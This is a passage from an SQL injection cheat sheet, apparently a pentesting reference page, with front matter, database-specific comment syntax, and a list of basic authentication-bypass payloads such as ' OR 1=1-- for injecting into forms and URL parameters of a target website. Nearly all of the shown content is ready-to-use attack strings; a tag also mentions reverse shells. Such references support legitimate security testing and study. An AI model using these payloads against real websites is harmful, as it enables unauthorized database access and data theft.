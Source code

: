 ```yaml
---
title: SQL Injection Cheat Sheet
description: SQL injection (SQLi) is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution. This page is about the SQL injection cheat sheet.
tags:
    - Database
    - Reverse Shell
    - SQL Injection
    - Web
refs:
    - https://portswigger.net/web-security/sql-injection/blind
date: 2023-09-13
draft: false
---
```


## Comment Syntax

Comment syntax is depending on what SQL is used in target website.

### MySQL

```txt
-- -
--+
#
```

### MSSQL, Oracle, PostgreSQL, SQLite

```txt
--
```

<br /><br />

## Basic Injection

First off, check if we can inject SQL commands into forms or URL params in the target website.

```txt
' OR 1=1--
' OR 1=1-- -
' OR 1=1#

' OR '1'='1'--
' OR '1'='1'-- -
' OR '1'='1'#

' OR '1'='1--
' OR '1'='1-- -
' OR '1'='1#

" OR 1=1--
" OR 1=1-- -
" OR 1=1#

') OR 1=1--
') OR 1=1-- -
') OR 1=1#

'; OR 1=1--
'; OR 1=1-- -
```